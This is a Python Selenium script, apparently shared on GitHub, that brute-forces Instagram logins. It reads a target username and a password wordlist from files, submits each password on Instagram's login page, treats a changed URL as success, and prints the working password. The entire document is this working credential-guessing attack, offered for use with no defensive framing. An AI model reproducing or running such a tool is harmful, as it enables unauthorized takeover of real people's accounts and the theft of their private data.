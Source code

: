 
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
import time


username_file = input ("Enter the path of the username file: ")
password_file = input ("Enter the path of the password file: ")


with open (username_file, 'r') as file:
    username = file.readline().strip()


with open(password_file, 'r') as file:
    passwords = [line.strip() for line in file.readlines()]


driver = webdriver.Chrome()  # Or use Firefox with webdriver.Firefox()


driver.get("https://www.instagram.com/accounts/login/")
time.sleep(5)  # Wait for the page to load


login_page_url = driver.current_url


login_successful = False
for password in passwords:
   
    driver.refresh()
    time.sleep(5)  # Wait for the page to reload

    
    username_field = driver.find_element(By.NAME, "username")
    password_field = driver.find_element(By.NAME, "password")
    
    
    username_field.clear()
    password_field.clear()

   
    username_field.send_keys(username)
    password_field.send_keys(password)

    
    password_field.send_keys(Keys.RETURN)

    
    time.sleep(10)

    
    current_url = driver.current_url
    if current_url != login_page_url:
        login_successful = True
        print(f"Login successful with username: {username} and password: {password}")
        break
    else:
        print(f"Login failed with password: {password}")


if not login_successful:
    print("All passwords failed. Could not log in.")

driver.quit()
